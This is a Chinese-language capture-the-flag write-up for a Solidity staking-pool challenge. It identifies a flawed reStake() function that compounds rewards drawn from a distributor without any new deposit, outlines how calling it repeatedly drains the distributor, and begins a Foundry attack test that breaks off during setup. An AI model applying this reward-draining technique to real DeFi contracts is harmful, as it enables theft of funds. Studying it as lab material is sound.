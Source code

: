 一般这种质押的题目，往往是在质押、转账逻辑方面出题，我们可以先关注有关于这两个的方法，看看有没有非常规或者魔改的方法。通过寻找池子合约中的函数，我们发现了一个非常规的质押函数：`restake()`

```solidity
	function reStake(uint256 _index) public {
        require(_index < 2, "Invalid index");
        uint256 preReward;
        if (_index == 0) {
            preReward = calculateTokenReward(msg.sender);
            if (preReward > 0) {
                token.transferFrom(distributor, address(this), preReward);
                stakeToken(msg.sender, preReward);
            }
        } else {
            preReward = calculateLpReward(msg.sender);
            if (preReward > 0) {
                token.transferFrom(distributor, address(this), preReward);
                stakeToken(msg.sender, preReward);
            }
        }

        emit RESTAKE(msg.sender, preReward);
    }
```

顾名思义，就是质押过后，你还可以再次质押。但是阅读完方法之后，这个再次质押居然不需要扣除我们的金额，任何金额都不需要扣我们的，因为他是获取我们质押金额所获得的利润，然后将利润再次质押，同时token合约也会将自己的代币存入进去。

这种利滚利的质押逻辑不对，我们啥都不会扣除，用利润来滚利润，然后token合约也不断的存钱，直到token合约不够钱存。应该加一些限制，再次质押不应该是用利润来质押，而应该也要用自己新的钱来质押才对。

> 还有一种方法可以找到这个地方：`ctrl+f`寻找distributor变量余额减少的地方（其实也没几处），因为题目就算要求我们让distributor余额减少。

解题思路：我们通过空投可以获得一笔token和LP，无论是使用`_index=0`来质押代币还是`_index=1`都是可以的，因为`reStake()`可以无限次调用。虽然`reStake()`可以不停的调用，但也要注意`calculateTokenReward()`计算利润的方式，选择在一个合适的时间，否则利润非常小不停`reStake()`会有gas问题，程序跑到死机：）

做法：获取空投=>质押LP=>等4小时=>不停的restake

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "./interface.sol";

contract attackTest is Test {
    string constant MdexFactory_Artifact = 'out/factory.sol/MdexFactory.json';
    string constant WHT_Artifact = 'out/WHT.sol/WHT.json';
    string constant MdexRouter_Artifact = 'out/router.sol/MdexRouter.json';
    string constant deploy_Artifact = 'out/deploy.sol/deploy.json';

    IMdexFactory public mdexFactory;
    IWHT public wht;
    IMdexRouter public router;
    IDeploy public deploy;
    IMdexPair public pair; 
    IQuintConventionalPool public pool;

    address public attacker = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;

    event flag(string result,address challenger);
    
    function setUp() public{
        // 1.部署factory合约，调用getInitCodeHash函数获取hash在setInitCodeHash中进行初始化
        mdexFactory = IMdexFactory(deployHelper_mdexFactory(MdexFactory_Artifact));
        mdexFactory.setInitCodeHash(mdexFactory.getInitCodeHash());
```